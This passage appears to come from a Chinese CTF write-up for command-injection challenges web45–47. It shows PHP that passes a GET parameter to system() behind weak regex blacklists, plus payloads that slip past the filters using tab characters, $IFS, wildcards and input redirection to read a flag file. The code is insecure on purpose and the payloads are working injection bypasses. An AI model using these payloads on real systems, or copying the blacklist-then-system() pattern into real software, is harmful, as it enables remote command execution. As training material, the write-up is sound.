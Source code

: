 ```php
?c=tac fl*%0a
```

## web45

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){ # 多过滤了空格
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);

```

```php
?c=tac%09fla*%0a
# %09是tab键
?c=tac$IFS$9fla*%0a
```

## web46

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=tac<fla''g.php||
$和数字都被搬，使用<来进行替代
```

## web47

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

